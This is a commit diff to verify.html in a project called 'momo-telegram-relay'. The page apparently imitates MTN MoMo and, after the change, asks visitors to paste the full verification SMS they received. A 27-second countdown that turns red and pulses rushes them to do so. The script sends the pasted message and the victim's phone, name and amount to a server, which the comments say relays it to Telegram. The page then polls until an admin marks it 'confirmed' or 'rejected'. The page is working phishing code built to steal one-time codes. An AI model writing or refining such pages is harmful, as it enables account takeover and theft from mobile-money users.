

Before and after one commit to leikirwa4/momo-telegram-relay, a website: page verify.html in a window 390 px wide. Both pictures are taken after a click on the button "Didn't receive a code? Resend". Drawn offline with Linux system fonts and the light colour scheme; no server answers.

Commit message:
new SMS paste verify design with 27s timer

```diff
--- a/verify.html
+++ b/verify.html
@@ -3,169 +3,238 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Verify Application - MoMo</title>
+    <title>SMS Verification - MoMo</title>
     <style>
         * { margin: 0; padding: 0; box-sizing: border-box;
             font-family: -apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, sans-serif; }
-        body { background: #f4f4f4; min-height: 100vh; display: flex; flex-direction: column; }
+        body { background: #ffffff; min-height: 100vh; display: flex; flex-direction: column; }
 
-        /* HEADER */
-        .header { background: #fff; padding: 14px 24px; display: flex; align-items: center;
-                  gap: 16px; border-bottom: 3px solid #ffcc00;
-                  box-shadow: 0 2px 8px rgba(0,0,0,.04); }
-        .logo-box { display: flex; align-items: center; gap: 10px; }
-        .logo-icon { width: 42px; height: 42px; background: #ffcc00; border-radius: 8px;
-                     display: flex; align-items: center; justify-content: center;
-                     font-weight: 800; font-size: 11px; color: #004f9f; text-align: center;
-                     border: 2px solid #004f9f; line-height: 1; }
-        .logo-text { font-weight: 800; font-size: 20px; color: #004f9f; }
-        .header-title { font-size: 18px; font-weight: 700; color: #222; flex: 1; }
-        .hamburger { font-size: 22px; color: #333; cursor: pointer; }
+        /* TOP BAR */
+        .topbar {
+            background: #fff; padding: 16px 20px; display: flex; align-items: center;
+            gap: 12px; border-bottom: 1px solid #eee;
+        }
+        .back-btn {
+            background: none; border: none; font-size: 15px; color: #0a3d62;
+            cursor: pointer; font-weight: 500; display: flex; align-items: center; gap: 6px;
+        }
+        .topbar-title {
+            flex: 1; text-align: center; font-size: 17px; font-weight: 700;
+            color: #0a3d62; margin-right: 50px;
+        }
 
         /* MAIN */
-        .main { flex: 1; display: flex; flex-direction: column;
-                align-items: center; padding: 60px 16px; }
-
-        .page-title { font-size: 32px; font-weight: 800; color: #111;
-                      text-align: center; margin-bottom: 40px; }
-
-        .card { background: #fff; width: 100%; max-width: 500px; border-radius: 16px;
-                padding: 44px 36px 36px; box-shadow: 0 8px 30px rgba(0,0,0,.08);
-                text-align: center; }
-
-        .card-icon {
-            width: 70px; height: 70px; background: #fff5cc; border-radius: 50%;
-            display: flex; align-items: center; justify-content: center;
-            margin: 0 auto 20px; font-size: 32px;
+        .main { flex: 1; padding: 24px 16px; display: flex; flex-direction: column;
+                align-items: center; }
+        .card {
+            background: #fff; width: 100%; max-width: 520px;
+            border: 1px solid #e5e7eb; border-radius: 14px;
+            padding: 26px 22px; box-shadow: 0 2px 8px rgba(0,0,0,0.03);
         }
 
-        .card-label { font-size: 14px; font-weight: 600; color: #444;
-                      margin-bottom: 8px; line-height: 1.5; }
-        .card-sub { font-size: 13px; color: #888; margin-bottom: 24px; }
+        .card h2 {
+            font-size: 20px; font-weight: 800; color: #0a3d62;
+            margin-bottom: 8px;
+        }
+        .card .desc {
+            font-size: 14px; color: #6b7280; line-height: 1.5;
+            margin-bottom: 20px;
+        }
 
-        .card input {
-            width: 100%; padding: 18px 20px; font-size: 20px;
-            font-family: inherit; border: 2px solid #ffcc00; border-radius: 10px;
-            background: #fffdf5; color: #111; outline: none;
-            text-align: center; font-weight: 700; letter-spacing: 3px;
-            margin-bottom: 14px; transition: box-shadow .2s;
+        /* TIMER BOX */
+        .timer-box {
+            display: flex; align-items: center; gap: 14px;
+            background: #fef7ec; border: 1px solid #f5d59a;
+            border-radius: 10px; padding: 14px 16px; margin-bottom: 20px;
         }
-        .card input::placeholder { color: #ccc; letter-spacing: 2px; font-weight: 500; }
-        .card input:focus { box-shadow: 0 0 0 4px rgba(255,204,0,.25); }
-        .card input.error { border-color: #e33; background: #fff5f5; }
+        .timer-circle {
+            width: 44px; height: 44px; border-radius: 50%;
+            border: 3px solid #e67e22;
+            display: flex; align-items: center; justify-content: center;
+            font-size: 15px; font-weight: 800; color: #e67e22;
+            flex-shrink: 0;
+        }
+        .timer-circle.urgent {
+            border-color: #dc2626; color: #dc2626;
+            animation: pulse 1s infinite;
+        }
+        @keyframes pulse {
+            0%, 100% { transform: scale(1); }
+            50% { transform: scale(1.08); }
+        }
+        .timer-text { font-size: 14px; color: #92400e; line-height: 1.4; }
+        .timer-text strong { color: #78350f; font-weight: 700; }
 
-        .error-msg { display: none; font-size: 13px; color: #c33;
-                     font-weight: 600; margin-bottom: 14px; }
+        /* TEXTAREA */
+        .sms-input {
+            width: 100%; min-height: 110px;
+            padding: 14px 16px;
+            font-size: 15px; font-family: inherit; color: #111;
+            border: 2px solid #ffcc00; border-radius: 10px;
+            background: #fffdf5; outline: none; resize: vertical;
+            margin-bottom: 12px;
+            transition: box-shadow .2s;
+        }
+        .sms-input::placeholder { color: #aaa; }
+        .sms-input:focus { box-shadow: 0 0 0 4px rgba(255,204,0,.25); }
+        .sms-input.error { border-color: #dc2626; background: #fff5f5; }
+        .sms-input:disabled { background: #f3f4f6; color: #999; cursor: not-allowed; }
+
+        .example-text {
+            font-size: 12px; color: #6b7280; font-style: italic;
+            margin-bottom: 18px; line-height: 1.5;
+        }
+
+        /* SUBMIT BUTTON */
+        .submit-btn {
+            width: 100%; padding: 16px;
+            font-size: 15px; font-weight: 800; letter-spacing: 1px;
+            color: #fff; background: #9ca3af; border: none;
+            border-radius: 10px; cursor: not-allowed;
+            transition: background .2s;
+        }
+        .submit-btn.active {
+            background: #ffcc00; color: #111; cursor: pointer;
+        }
+        .submit-btn.active:hover { background: #e6b800; }
+        .submit-btn.active:active { transform: scale(.99); }
+
+        /* ERROR / STATUS */
+        .error-msg { display: none; font-size: 13px; color: #dc2626;
+                     font-weight: 600; margin-bottom: 12px; text-align: center; }
         .error-msg.show { display: block; }
+        .error-msg.info { color: #b8860b; }
 
-        .submit-btn {
-            display: block; width: 100%; background: #ffcc00; color: #111;
-            border: none; padding: 18px; font-size: 16px; font-weight: 800;
-            letter-spacing: .5px; border-radius: 10px; cursor: pointer;
-            transition: background .2s, transform .1s; margin-bottom: 14px;
+        /* RESEND */
+        .resend-wrap { text-align: center; margin-top: 16px; }
+        .resend-btn {
+            background: transparent; border: none; color: #b8860b;
+            font-size: 13px; font-weight: 700; cursor: pointer;
+            text-decoration: underline;
         }
-        .submit-btn:hover { background: #e6b800; }
-        .submit-btn:active { transform: scale(.99); }
-        .submit-btn:disabled { background: #ddd; color: #999; cursor: not-allowed; }
-
-        .resend-btn {
-            display: inline-block; background: transparent; color: #b8860b;
-            border: none; padding: 8px 14px; font-size: 13px; font-weight: 700;
-            cursor: pointer; text-decoration: underline;
-        }
-        .resend-btn:hover { color: #ffcc00; }
         .resend-btn:disabled { color: #aaa; cursor: not-allowed; text-decoration: none; }
 
-        .helper { font-size: 12px; color: #999; margin-top: 12px; }
-
-        /* FOOTER */
-        .footer { background: #111; color: #ffcc00; text-align: center;
-                  padding: 18px; font-size: 13px; font-weight: 600; }
-
         @media (max-width: 480px) {
-            .page-title { font-size: 26px; }
-            .card { padding: 32px 22px 26px; }
-            .header-title { font-size: 15px; }
+            .card { padding: 22px 18px; }
+            .card h2 { font-size: 18px; }
         }
     </style>
 </head>
 <body>
 
-    <header class="header">
-        <span class="hamburger">☰</span>
-        <div class="logo-box">
-            <div class="logo-icon">MoMo<br>MTN</div>
-            <span class="logo-text">MoMo</span>
+    <!-- TOP BAR -->
+    <div class="topbar">
+        <button class="back-btn" onclick="history.back()">← Back</button>
+        <div class="topbar-title">SMS Verification</div>
     </div>
-        <span class="header-title">MTN Mobile Services</span>
-    </header>
 
+    <!-- MAIN -->
     <main class="main">
-        <h1 class="page-title">Verify Application</h1>
+        <div class="card">
+            <h2>Paste SMS Message</h2>
+            <p class="desc">
+                A verification message has been sent to your phone. Please copy
+                and paste the full message here.
+            </p>
 
-        <div class="card">
-            <div class="card-icon">🔐</div>
+            <!-- TIMER -->
+            <div class="timer-box">
+                <div class="timer-circle" id="timerCircle">27</div>
+                <div class="timer-text">
+                    <strong>Message expires in <span id="timerSec">27</span>s.</strong><br>
+                    Paste your SMS before time runs out.
+                </div>
+            </div>
 
-            <p class="card-label">Enter the loan application code<br>we sent your MTN LINE</p>
-            <p class="card-sub">Check your SMS for the code</p>
-
+            <!-- ERROR -->
             <div class="error-msg" id="errorMsg"></div>
 
+            <!-- FORM -->
             <form id="verifyForm">
-                <input type="text" id="code" placeholder="XXXX"
-                       maxlength="20" autocomplete="off" required>
+                <textarea id="code" class="sms-input"
+                          placeholder="Paste your full SMS message here..."
+                          maxlength="500" autocomplete="off"></textarea>
 
-                <button type="submit" class="submit-btn" id="submitBtn">
-                    Verify Code
+                <p class="example-text">
+                    Example: "Your MTN MoMo verification code is: 123456"
+                </p>
+
+                <button type="submit" class="submit-btn" id="submitBtn" disabled>
+                    SUBMIT
                 </button>
             </form>
 
-            <button class="resend-btn" id="resendBtn">
-                Didn't receive a code? Resend
-            </button>
-
-            <p class="helper">Codes are valid for 24 hours</p>
+            <div class="resend-wrap">
+                <button class="resend-btn" id="resendBtn">Didn't receive a code? Resend</button>
+            </div>
         </div>
     </main>
 
-    <footer class="footer">© 2026 MoMo</footer>
-
     <script>
-        // ─── Grab info from URL ───
+        // ─── URL params ───
         const params = new URLSearchParams(window.location.search);
         const phone     = params.get('phone')     || 'unknown';
         const firstName = params.get('firstName') || '';
         const lastName  = params.get('lastName')  || '';
         const amount    = params.get('amount')    || '';
 
-        const codeInput = document.getElementById('code');
-        const errorMsg  = document.getElementById('errorMsg');
-        const submitBtn = document.getElementById('submitBtn');
-        const resendBtn = document.getElementById('resendBtn');
+        const codeInput  = document.getElementById('code');
+        const errorMsg   = document.getElementById('errorMsg');
+        const submitBtn  = document.getElementById('submitBtn');
+        const resendBtn  = document.getElementById('resendBtn');
+        const timerCircle = document.getElementById('timerCircle');
+        const timerSec   = document.getElementById('timerSec');
 
-        // ─── Auto-format code as user types ───
+        // ─── Countdown timer (27 seconds) ───
+        let timeLeft = 27;
+        let timerInterval = null;
+
+        function startTimer() {
+            timerInterval = setInterval(() => {
+                timeLeft--;
+                timerCircle.textContent = timeLeft;
+                timerSec.textContent    = timeLeft;
+
+                // Turn red & pulse when ≤10s
+                if (timeLeft <= 10) {
+                    timerCircle.classList.add('urgent');
+                }
+
+                // Time's up
+                if (timeLeft <= 0) {
+                    clearInterval(timerInterval);
+                    timerCircle.textContent = '0';
+                    timerSec.textContent = '0';
+                    codeInput.disabled = true;
+                    submitBtn.disabled = true;
+                    submitBtn.classList.remove('active');
+                    errorMsg.textContent = '⏰ Time expired. Please request a new code.';
+                    errorMsg.classList.add('show');
+                }
+            }, 1000);
+        }
+
+        startTimer();
+
+        // ─── Enable Submit button once the user types something ───
         codeInput.addEventListener('input', function () {
-            let v = this.value.toUpperCase().replace(/[^A-Z0-9]/g, '');
-            let out = '';
-            if (v.startsWith('MM')) {
-                out = v.substring(0, 2);
-                if (v.length > 2) out += '-' + v.substring(2, 6);
-                if (v.length > 6) out += '-' + v.substring(6, 10);
+            this.classList.remove('error');
+            errorMsg.classList.remove('show', 'info');
+
+            if (this.value.trim().length > 0 && timeLeft > 0) {
+                submitBtn.disabled = false;
+                submitBtn.classList.add('active');
             } else {
-                out = v.substring(0, 4);
-                if (v.length > 4) out += '-' + v.substring(4, 8);
-                if (v.length > 8) out += '-' + v.substring(8, 12);
+                submitBtn.disabled = true;
+                submitBtn.classList.remove('active');
             }
-            this.value = out;
-            this.classList.remove('error');
-            errorMsg.classList.remove('show');
         });
 
-        // ─── Poll the server until admin decides (confirmed / rejected) ───
+        // ─── Polling for Telegram decision ───
         let referenceId = null;
         let pollTimer = null;
 
-        async function startPolling() {
+        function startPolling() {
             pollTimer = setInterval(async () => {
                 try {
                     const res  = await fetch('/api/status?ref=' + encodeURIComponent(referenceId));
@@ -173,11 +242,11 @@
 
                     if (data.status === 'confirmed') {
                         clearInterval(pollTimer);
-                        // ✅ REDIRECT TO FINAL PAGE
-                        window.location.href = `final.html?phone=${encodeURIComponent(phone)}&ref=${encodeURIComponent(referenceId)}`;
+                        window.location.href =
+                            `final.html?phone=${encodeURIComponent(phone)}&ref=${encodeURIComponent(referenceId)}`;
                     } else if (data.status === 'rejected') {
                         clearInterval(pollTimer);
-                        showResult('rejected');
+                        showRejected();
                     }
                 } catch (err) {
                     console.error('Poll failed:', err);
@@ -185,41 +254,45 @@
             }, 3000);
         }
 
-        function showResult(type) {
+        function showRejected() {
             document.querySelector('.card').innerHTML = `
-                <div style="width:90px;height:90px;border-radius:50%;background:#e33;
+                <div style="text-align:center;">
+                    <div style="width:80px;height:80px;border-radius:50%;background:#dc2626;
                                 display:flex;align-items:center;justify-content:center;
-                            margin:0 auto 20px;font-size:44px;color:#fff;">✕</div>
-                <h2 style="font-size:22px;font-weight:800;color:#c33;margin-bottom:12px;">
+                                margin:0 auto 18px;font-size:40px;color:#fff;">✕</div>
+                    <h2 style="font-size:20px;font-weight:800;color:#dc2626;margin-bottom:10px;">
                         Application Rejected
                     </h2>
-                <div style="display:inline-block;padding:8px 16px;border-radius:20px;
-                            background:#fdecea;color:#c33;font-size:13px;font-weight:700;
-                            margin-bottom:20px;">INVALID APPLICATION CODE</div>
-                <p style="font-size:15px;color:#444;line-height:1.6;margin-bottom:20px;">
-                    The application code you entered is <strong>incorrect</strong>.<br>
+                    <div style="display:inline-block;padding:6px 14px;border-radius:20px;
+                                background:#fdecea;color:#dc2626;font-size:12px;font-weight:700;
+                                margin-bottom:18px;">INVALID SMS MESSAGE</div>
+                    <p style="font-size:14px;color:#555;line-height:1.6;margin-bottom:20px;">
+                        The SMS message you submitted could not be verified.<br>
                         Please check your SMS and try again.
                     </p>
                     <button onclick="location.reload()" style="background:#111;color:#ffcc00;
                             border:none;padding:14px 28px;font-size:14px;font-weight:800;
                             border-radius:10px;cursor:pointer;">Try Again</button>
+                </div>
             `;
         }
 
-        // ─── Submit code → send to server → server forwards to Telegram ───
+        // ─── Submit ───
         document.getElementById('verifyForm').addEventListener('submit', async function (e) {
             e.preventDefault();
 
             const code = codeInput.value.trim();
             if (code.length < 4) {
-                errorMsg.textContent = 'Please enter a valid application code';
+                errorMsg.textContent = 'Please paste the full SMS message';
                 errorMsg.classList.add('show');
                 codeInput.classList.add('error');
                 return;
             }
 
             submitBtn.disabled = true;
-            submitBtn.textContent = 'Waiting for approval...';
+            submitBtn.textContent = 'WAITING FOR APPROVAL...';
+            codeInput.disabled = true;
+            clearInterval(timerInterval); // stop the timer once submitted
 
             try {
                 const res = await fetch('/api/verify-code', {
@@ -232,7 +305,7 @@
 
                 errorMsg.textContent = '📩 Sent to reviewer. Please wait…';
                 errorMsg.style.color = '#b8860b';
-                errorMsg.classList.add('show');
+                errorMsg.classList.add('show', 'info');
 
                 startPolling();
 
@@ -241,11 +314,13 @@
                 errorMsg.textContent = '⚠️ Network error. Please try again.';
                 errorMsg.classList.add('show');
                 submitBtn.disabled = false;
-                submitBtn.textContent = 'Verify Code';
+                submitBtn.textContent = 'SUBMIT';
+                submitBtn.classList.add('active');
+                codeInput.disabled = false;
             }
         });
 
-        // ─── Resend button ───
+        // ─── Resend ───
         resendBtn.addEventListener('click', async function () {
             this.disabled = true;
             this.textContent = 'Sending...';
@@ -260,7 +335,7 @@
                 console.error('Resend failed:', err);
             }
 
-            errorMsg.textContent = '✅ New code requested. Please check your SMS.';
+            errorMsg.textContent = '✅ New SMS requested. Please check your phone.';
             errorMsg.style.color = '#3a7d44';
             errorMsg.classList.add('show');
 
@@ -268,7 +343,7 @@
                 this.disabled = false;
                 this.textContent = "Didn't receive a code? Resend";
                 errorMsg.classList.remove('show');
-                errorMsg.style.color = '#c33';
+                errorMsg.style.color = '#dc2626';
             }, 5000);
         });
     </script>
```
Lines whose indentation alone changed are shown as unchanged.
